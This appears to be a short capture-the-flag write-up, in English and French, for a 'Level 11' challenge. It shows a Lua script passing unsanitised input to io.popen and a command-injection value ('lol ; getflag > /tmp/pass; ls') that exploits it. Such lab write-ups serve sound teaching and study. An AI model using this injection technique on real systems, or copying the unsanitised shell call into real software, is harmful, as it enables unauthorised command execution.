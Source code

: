 # Level 11
### English
We can see in the lua script that an echo is executed: 
```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We can then hijack this echo so that it sends the getflag command:
- lol ; getflag > /tmp/pass; ls

### Francais
Nous pouvons voir dans le script lua qu'un echo est executé: 
```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Nous pouvons alors detourné ce echo pour qu'il envoi la commande getflag: 
- lol ; getflag > /tmp/pass; ls

